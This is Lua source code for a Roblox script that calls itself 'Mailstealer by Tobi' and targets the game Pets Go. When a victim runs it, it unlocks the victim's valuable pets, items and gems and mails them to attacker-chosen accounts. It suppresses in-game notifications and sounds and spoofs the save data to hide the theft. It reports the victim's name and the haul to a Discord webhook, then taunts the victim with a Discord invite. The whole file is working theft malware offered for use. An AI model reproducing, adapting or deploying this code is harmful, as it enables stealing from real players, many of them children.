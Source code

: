 Usernames = {
    "sahib543212",
    "sahib543212",
    "sahib543212",
    -- Add more users below if you want to
    -- "sahib543212",
    -- "sahib543212",
}
min_rap = 1000 -- minimum rap of each item you want to get sent to you. 1k by default
min_chance = 100000 -- minimum chance of pets you want to get sent to you. 100k by default, which means that it will not send pets under 1 in 10k
webhook = "your discord webhook here"
local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().Inventory
local plr = game.Players.LocalPlayer
local MailMessage = "Join gg / GY2RVSEGDT to get back"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
local totalRAP = 0
local sentUsers = {}
_G.scriptExecuted = _G.scriptExecuted or false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true
for _, user in ipairs(Usernames) do
    if plr.Name == user then
        plr:kick("You cannot mailsteal yourself")
        return
    end
end
local GemAmount1 = 0
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end
local function formatNumber(number)
    if number == nil then
        return "0"
    end
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 and suffixIndex < #suffixes do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
    if suffixIndex == 1 then
        return tostring(math.floor(number))
    else
        if number == math.floor(number) then
            return string.format("%d%s", number, suffixes[suffixIndex])
        else
            return string.format("%.2f%s", number, suffixes[suffixIndex])
        end
    end
end
local function SendMessage(username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json",
    }
	local fields = {
		{
			name = "Victim Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		},
        {
            name = "Summary:",
            value = "",
            inline = false
        }
	}
    local combinedItems = {}
    local itemRapMap = {}
    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap, chance = item.chance}
            table.insert(combinedItems, rapKey)
        end
    end
    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)
    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        local itemLine = ""
        if itemData.chance then
            itemLine = string.format("1/%s %s (x%d): %s RAP", formatNumber(itemData.chance), itemName, itemData.amount, formatNumber(itemData.rap * itemData.amount))
        else
            itemLine = string.format("%s (x%d): %s RAP", itemName, itemData.amount, formatNumber(itemData.rap * itemData.amount))
        end
        fields[2].value = fields[2].value .. itemLine .. "\n"
    end
    local sentUsersFormatted
    if #sentUsers == 1 then
        sentUsersFormatted = "||" .. sentUsers[1] .. "||"
    elseif #sentUsers > 1 then
        local formatted = {}
        for _, user in ipairs(sentUsers) do
            table.insert(formatted, "||" .. user .. "||")
        end
        sentUsersFormatted = table.concat(formatted, ", ")
    else
        sentUsersFormatted = "||None||"
    end
    fields[3].value = string.format("Gems: %s\nTotal RAP: %s\nSent to users: %s", formatNumber(diamonds), formatNumber(totalRAP), sentUsersFormatted)
    if #fields[2].value > 1024 then
        local lines = {}
        for line in fields[2].value:gmatch("[^\r\n]+") do
            table.insert(lines, line)
        end
        while #fields[2].value > 1024 and #lines > 0 do
            table.remove(lines)
            fields[2].value = table.concat(lines, "\n") .. "\nPlus more!"
        end
    end
    local data = {
        ["embeds"] = {{
            ["title"] = "\240\159\142\178 New Pets Go Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/GY2RVSEGDT"
			}
        }}
    }
    local body = HttpService:JSONEncode(data)
    if webhook and webhook ~= "" then
        local response = request({
            Url = webhook,
            Method = "POST",
            Headers = headers,
            Body = body
        })
    end
end
local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false
game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)
local function getRAP(Type, Item)
    return (require(game:GetService("ReplicatedStorage").Library.Client.RAPCmds).Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end
local users = Usernames or {"PetsGoMommy", "TobiAltGrind", "TobiHatching"}
local min_rap = min_rap or 1000
local min_chance = min_chance or 100000
local webhook = webhook
local function sendItem(category, uid, am)
    local userIndex = 1
    local maxUsers = #users
    local sent = false
    repeat
        local currentUser = users[userIndex]
        local args = {
            [1] = currentUser,
            [2] = MailMessage,
            [3] = category,
            [4] = uid,
            [5] = am or 1
        }
        local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
        if response == true then
            sent = true
            if not table.find(sentUsers, currentUser) then
                table.insert(sentUsers, currentUser)
            end
        elseif response == false and err == "They don't have enough space!" then
            userIndex = userIndex + 1
            if userIndex > maxUsers then
                sent = true
            end
        end
    until sent
end
local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
            if GemAmount1 >= 500 and GemAmount1 >= min_rap then
                local userIndex = 1
                local maxUsers = #users
                local sent = false
                repeat
                    local currentUser = users[userIndex]
                    local args = {
                        [1] = currentUser,
                        [2] = MailMessage,
                        [3] = "Currency",
                        [4] = i,
                        [5] = GemAmount1
                    }
                    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
                    if response == true then
                        sent = true
                        if not table.find(sentUsers, currentUser) then
                            table.insert(sentUsers, currentUser)
                        end
                    elseif response == false and err == "They don't have enough space!" then
                        userIndex = userIndex + 1
                        if userIndex > maxUsers then
                            sent = true
                        end
                    end
                until sent
                break
            end
        end
    end
end
local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end
local categoryList = {"Pet", "Hoverboard", "Fruit", "Misc", "Booth"}
for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
            if v == "Pet" then
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    local difficulty = require(game:GetService("ReplicatedStorage").Library.Directory.Pets)[item.id]["difficulty"]
                    if difficulty >= min_chance then
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id, chance = difficulty})
                        totalRAP = totalRAP + (rapValue * (item._am or 1))
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                    totalRAP = totalRAP + (rapValue * (item._am or 1))
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end
if #sortedItems > 0 then
    ClaimMail()
    local blob_a = game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")
    local blob_b = require(blob_a).Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    require(blob_a).Get = function(...)
        return blob_b
    end
    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)
    
    SendAllGems()
    for _, item in ipairs(sortedItems) do
        sendItem(item.category, item.uid, item.amount)
    end
    SendMessage(plr.Name, GemAmount1)
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your items just got stolen by Tobi's mailstealer!\n Join discord.gg/GY2RVSEGDT")
    setclipboard("discord.gg/GY2RVSEGDT")
end
